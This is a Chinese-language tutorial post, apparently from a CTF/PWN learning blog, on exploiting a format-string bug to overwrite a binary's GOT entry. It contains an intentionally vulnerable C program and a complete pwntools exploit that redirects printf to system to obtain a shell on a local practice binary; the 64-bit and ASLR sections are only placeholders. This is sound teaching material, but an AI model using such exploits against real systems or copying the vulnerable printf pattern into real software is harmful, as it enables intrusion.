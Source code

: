 ```yaml
---
title: '利用 GOT Overwrite'
date: '2023-08-28'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '使用格式化字符串漏洞覆盖 GOT 表 get shell'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="got-overwrite-32.zip" href="/static/assets/got-overwrite-32.zip" type="Binary" />

这可能是 GOT Overwrite 题中最简单的一个了。

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp。

```python showLineNumbers
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

<Download name="got-overwrite-aslr.zip" href="/static/assets/got-overwrite-aslr.zip" type="Binary" />
## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

LINK


